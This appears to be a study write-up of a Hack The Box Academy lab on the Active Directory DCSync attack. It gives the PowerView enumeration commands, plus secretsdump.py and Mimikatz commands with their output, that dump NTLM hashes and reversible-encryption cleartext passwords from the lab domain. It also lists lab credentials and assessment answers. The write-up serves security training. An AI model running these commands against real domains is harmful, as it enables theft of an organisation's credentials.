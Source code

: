 # DCSync

## What is DCSync

DCSync is a technique for stealing the Active Directory password database by using the built-in `Directory Replication Service Remote Protocol`, which is used by Domain Controllers to replicate domain data. This allows an attacker to mimic a Domain Controller to retrieve user NTLM password hashes.

To perform this attack, you must have control over an account that has the rights to perform domain replication (a user with the Replicating Directory Changes and Replicating Directory Changes All permissions set).

**Using Get-DomainUser to View adunn's Group Membership**

```powershell-session
PS C:\htb> Get-DomainUser -Identity adunn  |select samaccountname,objectsid,memberof,useraccountcontrol |fl


samaccountname     : adunn
objectsid          : S-1-5-21-3842939050-3880317879-2865463114-1164
memberof           : {CN=VPN Users,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL, CN=Shared Calendar
                     Read,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL, CN=Printer Access,OU=Security
                     Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL, CN=File Share H Drive,OU=Security
                     Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL...}
useraccountcontrol : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
```

`objectsid : S-1-5-21-3842939050-3880317879-2865463114-1164`

**Using Get-ObjectAcl to Check adunn's Replication Rights**

```powershell-session
PS C:\htb> $sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"
PS C:\htb> Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-498
ObjectAceType         : DS-Replication-Get-Changes

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-516
ObjectAceType         : DS-Replication-Get-Changes-All

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-1164
ObjectAceType         : DS-Replication-Get-Changes-In-Filtered-Set

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-1164
ObjectAceType         : DS-Replication-Get-Changes

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-1164
ObjectAceType         : DS-Replication-Get-Changes-All
```

DCSync replication can be performed using tools such as Mimikatz, Invoke-DCSync, and Impacket’s secretsdump.py.

### **Extracting NTLM Hashes and Kerberos Keys Using secretsdump.py**

```shell-session
secretsdump.py -outputfile dcsync_hashes -just-dc <user>:<password>@<ipaddress> 
secretsdump.py -outputfile dcsync_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 
```

* \-just-dc-ntlm -> only give NTLM hashes from NTDS file
  * creates 3 files 1 has NTLM hash 2 has kerberos keys 3 cleartext password from NTDS for accounts set with reversible encryption.
* \-just-dc-ntlm \<USERNAME> -> NTLM hash for specific user
* \-pwd-last-set -> see when each account's password was last chaged
* \-history -> dump password history
* \-user-status -> check if user is disabled

If reversible encryption is set, the passwords are stored using RC4 encrpytion and the key used to encrypt is stored in Syskey and can be extrated by Domain Admin. secretsdump.py wil decrypt password with this option enabled while dumping the NTDS file as Domain Admin or using DCSync

**Enumerating Further using Get-ADUser**

```powershell-session
PS C:\htb> Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl

DistinguishedName  : CN=PROXYAGENT,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
Enabled            : True
GivenName          :
Name               : PROXYAGENT
ObjectClass        : user
ObjectGUID         : c72d37d9-e9ff-4e54-9afa-77775eaaf334
SamAccountName     : proxyagent
SID                : S-1-5-21-3842939050-3880317879-2865463114-5222
Surname            :
userAccountControl : 640
UserPrincipalName  :
```

We can see that one account, `proxyagent`, has the reversible encryption option set with PowerView as well:

**Checking for Reversible Encryption Option using Get-DomainUser**

```powershell-session
PS C:\htb> Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol

samaccountname                         useraccountcontrol
--------------                         ------------------
proxyagent     ENCRYPTED_TEXT_PWD_ALLOWED, NORMAL_ACCOUNT
syncron        ENCRYPTED_TEXT_PWD_ALLOWED, NORMAL_ACCOUNT
```

**Displaying the Decrypted Password**

```shell-session
cat inlanefreight_hashes.ntds.cleartext 

proxyagent:CLEARTEXT:Pr0xy_ILFREIGHT!
```

### **Performing the Attack with Mimikatz**

```powershell-session
PS C:\htb> .\mimikatz.exe

mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
[DC] 'INLANEFREIGHT.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'INLANEFREIGHT\administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : administrator
User Principal Name  : administrator@inlanefreight.local
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 10/27/2021 6:49:32 AM
Object Security ID   : S-1-5-21-3842939050-3880317879-2865463114-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: 88ad09182de639ccc6579eb0849751cf

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 4625fd0c31368ff4c255a3b876eaac3d
```

## Assessment

**Perform a DCSync attack and look for another user with the option "Store password using reversible encryption" set. Submit the username as your answer.**

```
PS C:\Tools\mimikatz\x64> Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl

DistinguishedName  : CN=PROXYAGENT,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
Enabled            : True
GivenName          :
Name               : PROXYAGENT
ObjectClass        : user
ObjectGUID         : c72d37d9-e9ff-4e54-9afa-77775eaaf334
SamAccountName     : proxyagent
SID                : S-1-5-21-3842939050-3880317879-2865463114-5222
Surname            :
userAccountControl : 640
UserPrincipalName  :

DistinguishedName  : CN=syncron,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
Enabled            : True
GivenName          :
Name               : syncron
ObjectClass        : user
ObjectGUID         : 36857917-0314-49a3-b09f-40415851ea6d
SamAccountName     : syncron
SID                : S-1-5-21-3842939050-3880317879-2865463114-5617
Surname            :
userAccountControl : 640
UserPrincipalName  :

```

**What is this user's cleartext password?**

ssh to linux machine to run secretsdump.py

```
secretsdump.py -just-dc INLANEFREIGHT/adunn:SyncMaster757@172.16.5.5 -outputfile inlanefreight_hashes
```

<figure><img src="../../../.gitbook/assets/image (46) (2).png" alt=""><figcaption><p>syncron:Mycleart3xtP@ss!</p></figcaption></figure>

**Perform a DCSync attack and submit the NTLM hash for the khartsfield user as your answer.**

<figure><img src="../../../.gitbook/assets/image (22) (1) (1) (1).png" alt=""><figcaption><p>4bb3b317845f0954200a6b0acc9b9f9a</p></figcaption></figure>











